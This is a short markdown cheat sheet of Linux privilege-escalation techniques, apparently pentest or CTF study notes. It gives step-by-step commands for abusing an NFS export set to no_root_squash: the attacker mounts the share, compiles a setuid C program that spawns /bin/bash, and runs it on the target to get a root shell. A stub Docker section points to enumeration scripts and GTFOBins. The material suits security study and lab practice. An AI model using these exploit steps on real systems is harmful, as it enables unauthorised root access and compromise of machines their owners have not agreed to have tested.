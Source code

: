 
# Escalation Path: NFS Root Squashing



## Identification of the vulnerability
```bash
cat /etc/exports
# output example=/tmp *(rw,sync,insecure,"no_root_squash",no_subtree_check)
```

> It means that the **/tmp** folder is shareable and can be mounted
and everything inside the mount gonna be run by root, so we can take advantage of that.


### Execution

From kali:
```bash
showmount -e <target ip>

mkdir /tmp/mountme
mount -o rw,vers=2 <target ip>:/tmp /tmp/mountme
```

> Now we put something malicious in the mounted folder

```bash
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/malicious.c

gcc /tmp/mountme/malicious.c -o /tmp/mountme/shell
chmod +s /tmp/mountme/shell
```

From the target machine:
```bash
cd /tmp
./shell
root
```



# Escalation Path: Docker


## Overview
```bash
run linpeas or linenum 
```

### Execution
gtfobins again: https://gtfobins.github.io/gtfobins/docker/
